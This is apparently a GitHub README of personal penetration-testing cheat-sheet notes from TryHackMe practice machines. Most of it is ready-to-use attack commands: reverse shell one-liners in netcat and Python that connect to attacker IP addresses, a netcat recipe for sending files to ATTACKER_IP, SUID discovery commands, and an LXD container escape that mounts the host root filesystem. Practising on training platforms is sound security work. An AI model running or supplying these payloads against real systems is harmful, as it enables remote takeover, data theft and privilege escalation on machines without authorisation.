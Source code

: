 # HackNotes

This repository contains my personal notes and tricks that I've gathered while working on various machines in the TryHackMe platform. These notes serve as a guide for penetration testing and help me document my progress and findings.

Please note that these notes are a work in progress, and I'll be continuously adding more content as I progress through the challenges and machines.

## Introduction
In this repository, you will find a compilation of various tricks, commands, and techniques that can be useful during penetration testing activities. These notes are intended to assist in the process of hacking and securing systems.

## Tricks
Here are some handy tricks to enhance your pentesting workflow:

---
#### Spawn a fully interactive shell:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

---
#### Reverse shells
* nc
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.22.27 4444 >/tmp/f
```
* python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
* python3
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

---
#### Set appropriate permissions for `id_rsa` file before usage:
```
chmod 600 id_rsa
```

---
#### File Transfer on Netcat

1. To download a file on the remote shell:
```
nc ATTACKER_IP ATTACKER_PORT < [file_to_download]
```
2. To receive the file on the attacker machine:
```
nc -l ATTACKER_PORT > [output_file_path]
```

---
#### Web
Discover hidden directories using `wfuzz`:
```
wfuzz -w /usr/share/dirb/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://10.10.47.7/island/2100/FUZZ.ticket
```
---
####  Encoding techniques:
- [splitbrain](https://www.splitbrain.org/_static/ook/)
- [hashes](https://hashes.com/en/tools/hash_identifier)
- [md5hashing](https://md5hashing.net/hash)
- [cyberchef](https://gchq.github.io/CyberChef/)

## Additional Notes
Here are some additional notes that might come in handy during your penetration testing journey:

---

#### Read a raw file using `xxd`:
```
xxd -r file.raw > output.txt
```
---
#### terminal hack
`l\s`: Equivalent to `ls`

---
#### Transfer files using `scp`:
```
scp backup.zip toor@192.168.122.30:/home/username_of_remote_host
```
---
#### Decompress a gzip file:
```
gzip -d file.gz
```

---
### Privilege Escalation:
Identify SUID/SGID files:
```
find / -type f -perm /4000 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
```
LXD container exploitation:
```
wget archive
lxc image import ./archive --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true # If not working, use FINGERPRINT
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

---
Happy hacking!
